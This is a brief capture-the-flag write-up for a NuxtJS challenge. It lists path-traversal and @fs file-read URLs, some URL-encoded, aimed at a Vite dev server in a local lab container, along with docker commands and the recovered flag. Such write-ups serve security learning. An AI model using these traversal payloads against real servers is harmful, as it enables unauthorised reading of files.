 # a-simple-website

It turns out that learning to make websites using NuxtJS is really fun

## Solution

http://localhost:3000/
http://172.20.0.2:3000/

https://github.com/vitejs/vite/issues/8498

http://172.20.0.2:3000/@fs/%2f%2f%2f%2fflag%2ftxt

`../` = `%2e%2e%2f`
`/` = `%2f`

http://172.20.0.2:3000/@fs/%2e%2e%2f%2e%2e%2f%2e%2e%2fflag.txt

http://172.20.0.2:3000/@fs/%2fflag.txt

https://github.com/vitejs/vite/security/advisories/GHSA-353f-5xf4-qw67
http://172.20.0.2:3000//flag.txt

http://172.20.0.2:3000%2f%2fflag.txt


```sh
docker compose up -d
docker container logs 31e5
docker exec -it 31e5 /bin/bash
```

got base url from console in chrome:

http://172.20.0.2:3000/_nuxt/@fs/app/package.json

http://172.20.0.2:3000/_nuxt/@fs/%2f%2fflag.txt

`TCP1P{OuTD4t3d_NuxxT_fR4m3w0RkK}`
